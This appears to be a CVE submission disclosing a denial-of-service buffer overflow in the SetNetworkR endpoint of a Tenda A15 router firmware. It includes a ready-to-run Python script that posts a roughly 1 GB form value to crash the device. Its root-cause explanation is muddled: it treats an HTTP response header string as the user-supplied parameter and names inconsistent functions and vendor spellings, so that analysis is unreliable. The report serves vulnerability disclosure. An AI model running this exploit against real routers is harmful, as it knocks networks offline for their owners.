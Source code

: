 # CVE submission
Affected products and versions: Tenda A15 V15.13.07.13

Affected object type: Network device (router)

Vulnerability type: buffer overflow

Vulnerability URL: http://xxx/goform/SetNetworkR

Vulnerability description: Tengda router A15 V15.13.07.13 has a buffer overflow vulnerability, which can be exploited by an attacker to cause a denial of service.

Vulnerability Analysis Process:
Router Firmware Download:https://www.tendacn.com/download/detail-3187.html
![image](https://github.com/user-attachments/assets/943995f7-1f9f-465c-9592-bdaa3469b4f0)

The vulnerability occurs in the formSetNetworkR function
![alt text](image-1.png)
The program obtains the parameter "HTTP/1.1 200 OKrnContent-Length:%drnContent-type: text/plain; charset=utf-8rnPrag ma: no-cachernCache-Control: no-cachernrn", and then pass the user's input into the websDone function, which will handle the characters entered by the user, and if the input value is too large, it will not be processed.

![alt text](image-2.png)
Cross-locate the formArpNerworkSet function route to SetNetworkR

Attack payloads：
import requests

url = "http://192.168.85.160/goform/SetNetworkR"
data = {
    "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPrag ma: no-cache\r\nCache-Control: no-cache\r\n\r\n":b'A'*1000000000
}
res = requests.post(url=url,data=data)
print(res.content)

Repetition：
![alt text](image-3.png)
![alt text](image-4.png)
Run the script
![alt text](image-5.png)
CPU occupancy
![alt text](image-6.png)
The router crashes, the website cannot be accessed, and the access denial attack succeeds

Vulnerability reproduction video:
Link: https://pan.baidu.com/s/1HX0p1F342ZmpUZNdoWCkyw 
Extraction code: rjvp
